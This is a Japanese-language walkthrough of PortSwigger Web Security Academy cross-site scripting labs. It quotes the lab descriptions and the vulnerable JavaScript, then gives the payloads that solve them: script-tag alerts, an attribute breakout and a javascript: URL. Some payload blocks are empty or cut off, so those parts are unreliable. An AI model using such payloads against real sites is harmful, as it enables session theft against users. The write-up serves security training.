

# XSS

## Reflected XSS into HTML context with nothing encoded

```text
This lab contains a simple reflected cross-site scripting vulnerability in the search functionality.

To solve the lab, perform a cross-site scripting attack that calls the alert function.
```

`?search`に対し

```html
<script>alert(document.domain)</script>
```


## Stored XSS into HTML context with nothing encoded

```text
This lab contains a stored cross-site scripting vulnerability in the comment functionality.

To solve this lab, submit a comment that calls the alert function when the blog post is viewed.
```

commentに対して

```html
<script>alert(document.domain)</script>
```


## DOM XSS in document.write sink using source location.search
```text
This lab contains a DOM-based cross-site scripting vulnerability in the search query tracking functionality. It uses the JavaScript document.write function, which writes data out to the page. The document.write function is called with data from location.search, which you can control using the website URL.

To solve this lab, perform a cross-site scripting attack that calls the alert function.
```


```js
<script>
    function trackSearch(query) {
        document.write('');
    }
    var query = (new URLSearchParams(window.location.search)).get('search');
    if(query) {
        trackSearch(query);
    }
</script>
```

```
"><script>alert(1)</script>
```

## DOM XSS in innerHTML sink using source location.search

```text
This lab contains a DOM-based cross-site scripting vulnerability in the search blog functionality. It uses an innerHTML assignment, which changes the HTML contents of a div element, using data from location.search.

To solve this lab, perform a cross-site scripting attack that calls the alert function.
```

`innerHTML`がsinkになるラボ。つまり`<script>`でalertを出すことはできない。

[MDN Document](https://developer.mozilla.org/ja/docs/Web/API/Element/innerHTML#%E3%82%BB%E3%82%AD%E3%83%A5%E3%83%AA%E3%83%86%E3%82%A3%E3%81%AE%E8%80%83%E6%85%AE%E4%BA%8B%E9%A0%85)

上記にもあるが、``を使えば良い。

```html
<span id="searchMessage"></span>
<script>
     function doSearchQuery(query) {
         document.getElementById('searchMessage').innerHTML = query;
     }
     var query = (new URLSearchParams(window.location.search)).get('search');
     if(query) {
         doSearchQuery(query);
     }
 </script>
 ```

ということで以下のペイロードで終わり。

```html

```

##  DOM XSS in jQuery anchor href attribute sink using location.search source

```text
This lab contains a DOM-based cross-site scripting vulnerability in the submit feedback page. It uses the jQuery library's $ selector function to find an anchor element, and changes its href attribute using data from location.search.

To solve this lab, make the "back" link alert document.cookie.
```

feed back部分にXSSが眠っているようです。

```js
<script>
     $(function() {
         $('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
     });
 </script>
```

query parameterから、returnPathの値を取得し、backLink

```html
<a id="backLink">Back</a>
```

のhref要素に値を書き込むような処理だと思います。

`https://0a8d005104da6791840722a5004e00a3.web-security-academy.net/feedback?returnPath=/hoge`のようにすると、以下のように変化していることから多分合っているでしょう。


hrefに対して攻撃をする必要があるので、`javascript:alert(document.domain)`で良いでしょう。



## DOM XSS in jQuery selector sink using a hashchange event

```text
This lab contains a DOM-based cross-site scripting vulnerability on the home page. It uses jQuery's $() selector function to auto-scroll to a given post, whose title is passed via the location.hash property.

To solve the lab, deliver an exploit to the victim that calls the print() function in their browser.
```

```js
<script>
    $(window).on('hashchange', function(){
        var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
        if (post) post.get(0).scrollIntoView();
    });
</script>
```

`https://domain/#c`とした時の`window.locaton.hash.slice(1)`は`c`ということを理解すれば何ら難しいことはないはずです。

```
a)
```
